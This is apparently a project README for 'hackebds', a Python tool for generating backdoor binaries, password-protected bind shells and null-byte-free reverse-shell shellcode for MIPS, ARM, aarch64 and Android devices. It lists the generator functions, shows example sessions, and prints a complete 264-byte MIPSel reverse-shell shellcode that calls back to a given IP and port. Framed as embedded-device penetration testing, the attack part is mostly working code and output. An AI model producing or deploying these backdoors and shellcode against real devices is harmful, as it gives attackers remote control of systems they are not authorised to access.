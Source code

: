 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

3.  Fixed some bugs that the reverse_shellcode and reverse_backdoor **ports were selected too often**, and **added the function of generating bindshell with specified ports and passwords under x86 and x64**，**and beautified the generation process****（This feature will be updated to various architectures）**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time，Please install the latest
**pip install hackebds==0.1.5**

```
pip install hackebds==0.1.5
....
```
#### Instructions for use
When importing this module will import the pwn module

1. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell
```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
```
expample:
```
>>> mipsel_backdoor("127.0.0.1",5566)
[+] reverse_ip is: 127.0.0.1
[+] reverse_port is: 5566
[*] waiting 3s
[+] mipsel_backdoor is ok in current path ./
>>>
```
![image-20221026181947194](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20221026181947194.png)

```
>>> from hackebds import *
>>> x64_bind_shell(13000,"1235")
[+] bind port is set to 13000
[+] passwd is set to '1235'
[*] waiting 3s
[+] x64_bind_shell is ok in current path ./
```

![image-20221026182024685](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20221026182024685.png)

2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
```
example:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating
 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3

 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation

 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

 2022.6.27 0.1.0 Added Android backdoor generation

 2022.10.26 0.1.5 Fixed some problems and added some automatic generation functions of bindshell specified port passwords

## One-click build environment

To be added


